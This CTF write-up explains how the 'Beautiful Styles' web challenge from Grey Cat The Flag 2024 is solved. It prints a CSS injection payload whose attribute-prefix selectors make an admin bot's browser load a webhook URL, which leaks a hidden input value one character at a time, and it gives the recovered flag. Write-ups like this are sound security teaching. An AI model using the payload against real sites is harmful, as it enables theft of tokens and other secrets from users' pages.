




# [WEB] Beautiful Styles
## Description
I opened a contest to see who could create the most beautiful CSS styles. Feel free to submit your CSS styles to me and I will add them to my website to judge them. I'll even give you a sample of my site to get you started. 
Flag only consists of numbers and uppcase letters and the lower character f.

Author: Junhua

http://challs.nusgreyhats.org:3333

# Approach
Entering the website, we are greeted with the following landing page, consisting of a source code of some web content and also an input for CSS styling.



After clicking on the submit button, we are redirected to another page `/submission/submission_id` showing us the preview of how our CSS input has changed the styling of the web content. 
There is also a button to submit our code for judging, which is likely visited by some kind of admin bot.



From the source code of the web content that they've shown us, we know that the flag is stored in an input tag, within the "value" attribute.
To exploit CSS injection, we provide the following CSS:

```
input[value^=grey\{] {
    background-image: url(https://webhook.site/XXX)
}
```

Get your own webhook URL [here](https://webhook.site/)

The `^=` selector will lead to the url being accessed if the value attribute starts with the specified string `grey{`, which we know it would be since it is part of the flag format. 
We just need to submit the CSS for judging to let the admin bot execute it. Since the admin bot (judge) is the one making request, its flag value will be the legitimate one which we are looking for, and not the fake flag which we see currently.
When the admin bot loads our CSS, our webhook is called.

From there on, we just need to perform what I call a `Inference-Based Blind Attack` (aka Brute-forcing) to add on additional characters to the value, recording down whenever our webhook receives a request. 
Eventually, it builds up to the following:

```
input[value^=grey\{X]
input[value^=grey\{X5]
input[value^=grey\{X5S]
input[value^=grey\{X5S3]
...
input[value^=grey{X5S34RCH1fY0UC4NF1ND1T\}]
```



I have provided an automation script in this challenge folder. However, the script has to be run for each character of the flag, up until the last character of the flag `}` is present in the built `currentFlag` variable, which you will need to update each time you run the script. This is because I am not able to figure out a way to let the script know when our webhook gets called by the admin bot.

For keeping track of our flag which is being "built", we can append a `?c={Current Flag Progress}` query parameter to our webhook URL (included in the script). This way, we can monitor which character is next in the flag via the webhook page.



Flag: `grey{X5S34RCH1fY0UC4NF1ND1T}`

Script: [solve.py](https://raw.githubusercontent.com/0necloud/CTF-Writeups/refs/heads/main/Grey%20Cat%20The%20Flag%202024/Beautiful%20Styles/solve.py)